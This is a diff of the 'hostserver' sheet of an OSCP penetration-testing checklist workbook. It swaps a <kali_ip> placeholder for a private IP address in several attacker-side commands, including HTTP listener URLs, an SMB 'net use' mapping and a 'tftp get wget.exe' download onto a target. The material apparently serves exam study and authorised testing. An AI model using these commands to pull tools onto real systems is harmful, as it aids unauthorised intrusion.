

Before and after one commit to NurvX/OSCP-Cheatsheet, an Excel workbook: OSCP-checklist_v0.1.1.xlsm, sheet hostserver, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; table styles not drawn; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/OSCP-checklist_v0.1.1.xlsm (sheet hostserver)
+++ b/OSCP-checklist_v0.1.1.xlsm (sheet hostserver)
-C2 (Command): http://<kali_ip>
+C2 (Command): http://192.168.178.65
-C3 (Command): http://<kali_ip>:1337
+C3 (Command): http://192.168.178.65:1337
-C4 (Command): http://<kali_ip>:1234
+C4 (Command): http://192.168.178.65:1234
-C5 (Command): net use \\<kali_ip>\windows\
+C5 (Command): net use \\192.168.178.65\windows\
-C7 (Command): http://<kali_ip>:3456
+C7 (Command): http://192.168.178.65:3456
-C8 (Command): tftp -i <kali_ip> get wget.exe
+C8 (Command): tftp -i 192.168.178.65 get wget.exe
```
Also changed, not shown: sheet Commands, sheet Redhat Post-Exploitation, charts or pictures.
